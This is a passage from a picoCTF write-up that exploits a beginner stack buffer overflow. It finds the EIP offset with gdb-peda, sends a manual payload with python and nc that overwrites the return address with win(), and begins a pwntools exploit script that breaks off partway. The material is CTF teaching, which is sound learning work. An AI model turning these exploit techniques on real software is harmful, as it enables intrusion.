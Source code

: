 And we crashed it. Remember, we got to replace the **EIP** with the address of the `win()` function.
To do that we need to overflow the stack just enough to reach the **EIP** and then provide our own.
The **EIP** register is overflowed by the pattern `0x41414641` (`afaa`). let's find the offset of this pattern.

```bash
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

All we have to do now is find the address of the `win()` function and craft the final payload.

```bash
gdb-peda$ x win
0x80491f6 <win>:        0xfb1e0ff
```

Notice that `win` is at `0x80491f6` but we need to convert it in little endian format. This can be done with the pwntools `p32()` function which results to `\xf6\x91\x04\x08` 

## 🐑 Exploitation (Manual)

> Note
> In this writeup I include a **manual** as well as an **automated** way of exploiting buffer overflows. 
> I believe that a beginner should learn how to exploit it manually and then let the heavylifers do the job.

Let's now use the final payload on the original application.

```bash
python2 -c "print(b'A' * 44 + b'\xf6\x91\x04\x08')" | nc saturn.picoctf.net [PORT]
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_[REDACTED]}
```

## 🦆 Exploitation (Automated)

If you found the above method cool, then trust me this one will excite you :D
We are going to automate the process of crafting and sending the payload. Although to automate this, we still need to understand how its done in the first place.  

> Basic python knowledge is adviced.

For the shake of simplicity we will use `pwntools`, a exploit development python library. It is not part of the standard library so you will need to install it with:

```bash
$ pip3 install --upgrade pwntools
```

Firstly let's add some arguments the user can supply when using our exploit.

```python
from pwn import *
import argparse

parser = argparse.ArgumentParser()

parser.add_argument(
					"--offset", 
					type=int, 
					required=True, 
					help="EIP offset to use."
)

parser.add_argument(
					"--address", 
```